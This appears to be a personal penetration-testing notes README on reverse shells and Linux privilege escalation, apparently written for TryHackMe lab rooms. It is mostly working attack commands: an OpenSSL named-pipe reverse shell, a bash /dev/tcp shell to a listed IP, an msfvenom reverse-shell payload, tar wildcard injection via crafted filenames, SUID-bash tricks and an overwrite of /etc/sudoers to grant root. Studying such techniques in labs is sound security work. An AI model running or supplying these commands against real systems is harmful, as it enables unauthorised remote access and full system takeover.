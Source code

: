 ******************* Look at notes THM room Game Zone README.md for various techniques.

# OpenSSL Reverse Shell
[Generate OpenSSL Certificate](../../SSL/OpenSSL/README.md#Generate-SSL-Certificate)
[Start OpenSSL Listener](../../SSL/OpenSSL/README.md#Start-OpenSSL-Listener)
##### From Target, create named pipe and OpenSSL client to connect to Attack Machine.
```bash
# On Target
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <Attack IP ADdress>:443 > /tmp/x; rm /tmp/x
```

# ICMP Reverse Shell with icmpsh
##### Disable ICMP replies by the OS
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
## ICMP Reverse Shell References
[Github icmpsh](https://github.com/bdamele/icmpsh)

[Pentestlab Blog](https://pentestlab.blog/tag/icmpsh/)

[Security Online](https://securityonline.info/icmpsh-simple-reverse-icmp-shell/)

# CronJobs - File Permissions 
```bash
cat /etc/crontab
# IF CronJobs runs a <file>.sh script, edit <file>.sh to establish a reverse shell.
```

# CronJobs - Wildcard
```bash
cat /etc/crontab
# Find CronJobs using wildcards.
# Search GTFObins for CronJob command.

# Find out the time to see when the next job will run.
date

### NOTE - I had problems making the scripts executable and callng them.
### Using exec=sh <script>.sh worked, when the others did not.
### See notes from THM Skynet room.
### I was unable to establish a reverse shell.
### Scripts that I chmod +x did not execute.
### Calling he scripts with sh worked.
echo "" > "--checkpoint-action=exec=sh <script>.sh"

# Example using tar.
# Create reverse shell binary with msfvenom.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local IP> LPORT=<port num> -f elf -o shell.elf
# Copy shell.elf to server.
# Make shell.elf executable, on server.
chmod +x /home/user/shell.elf
# Start listener.
nc -nvlp <port num>
# Create these two files in /home/user:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
# These filenames will be read as tar arguments, causing tar to execute shell.elf.

## ALTERNATIVES
# Use a bash shell.
echo "bash -i >& /dev/tcp/10.13.25.242/9999 0>&1" > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Make /bin/bash a SUID.
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Copy /bin/bash to a /tmp and make SUID.
printf '#!/bin/bash\ncp /bin/bash /tmp/newbinbash && chmod +s /tmp/newbinbash' > newbinbash.sh
chmod +x newbinbash.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=newbinbash.sh
# Make the current user a sudoer.
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
chmod +x privesc.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=privesc.sh
```

### CronJobs - Wildcard References
[Exploiting Wildcard for Privilege Escalation](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

# [Upgrade a Linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)
##### Note: The methods above will not work in every situation. For example, I have regularly run into a problem on my Kali machine where attempting to use stty raw -echo while using zsh as my shell will cause the entire terminal to become unusable. I have gotten around this issue by switching to bash before I start any netcat listener that I will be using to catch a shell.
```bash
bash
rlwrap nc -lvnp $port
which python python2 python3
/usr/bin/python3 -c "import pty; pty.spawn('/bin/bash')"; #spawn a python psuedo-shell
CTRL+Z # to background shell
echo $TERM
stty raw -echo # Send control characters to the shell.
stty size # Get terminal window size 48 / 102
fg # foreground shell
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
[Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility ](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
[Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

# [WordPress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

# Cheatsheets
[HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

# References
[Staged vs Stageless Handlers](https://buffered.io/posts/staged-vs-stageless-handlers/)

[Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)

[WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)